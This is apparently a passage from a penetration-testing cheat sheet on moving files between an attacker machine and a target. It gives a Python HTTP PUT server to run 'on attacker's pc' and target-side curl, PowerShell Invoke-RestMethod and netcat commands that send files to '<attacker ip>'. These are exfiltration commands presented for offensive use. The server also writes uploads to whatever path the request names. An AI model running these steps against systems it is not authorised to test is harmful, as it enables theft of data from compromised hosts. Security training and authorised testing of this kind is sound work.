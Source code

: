 :arrow_forward: Downloading a file from the server with SSH

command 

```shell
scp <remote server username>@<remote server IP>:/<remote server folder>/<remote server filename> /<local folder>/<local filename>
# e.g., scp tester@192.168.10.99:/Users/tester/Desktop/123.txt /tmp/123.txt
```

:arrow_forward: Uploading a file from target server to our local HTTP server

HTTPutServer.py

```py
import sys
import signal
from threading import Thread
from BaseHTTPServer import HTTPServer, BaseHTTPRequestHandler



class PUTHandler(BaseHTTPRequestHandler):
    def do_PUT(self):
        length = int(self.headers['Content-Length'])
        content = self.rfile.read(length)
        self.send_response(200)
        with open(self.path[1:], "w") as f:
            f.write(content)


def run_on(port):
    print("Starting a HTTP PUT Server on {0} port {1} (http://{0}:{1}) ...".format(sys.argv[1], port))
    server_address = (sys.argv[1], port)
    httpd = HTTPServer(server_address, PUTHandler)
    httpd.serve_forever()


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage:\n\tpython {0} ip 1337".format(sys.argv[0]))
        sys.exit(1)
    ports = [int(arg) for arg in sys.argv[2:]]
    try:
        for port_number in ports:
            server = Thread(target=run_on, args=[port_number])
            server.daemon = True # Do not make us wait for you to exit
        server.start()
        signal.pause() # Wait for interrupt signal, e.g. KeyboardInterrupt
    except KeyboardInterrupt:
        print "\nPython HTTP PUT Server Stoped."
        sys.exit(1)
```

Starting server on attacker's pc

```shell
python HTTPutServer.py <attacker ip> <attacker port>
```

Target host uploads files

```powershell
curl --upload-file test.txt http://<attacker ip>:<attacker port>/
```

```powershell
Invoke-RestMethod -Uri http://<attacker ip>:<attacker port>/<remote file name> -Method PUT -InFile <target file>
```

#### nc

Using `nc` to listen on port N

```shell
nc -lnvp 4444 > /tmp/which
```

Target host uploads files

```shell
cat /usr/bin/which | nc <attacker ip> <attacker port>
```

Check if the file is correct

attacker

```shell
md5sum /tmp/which
# e942f154ef9d9974366551d2d231d936
```

target

```shell
md5sum /usr/bin/which
# e942f154ef9d9974366551d2d231d936
```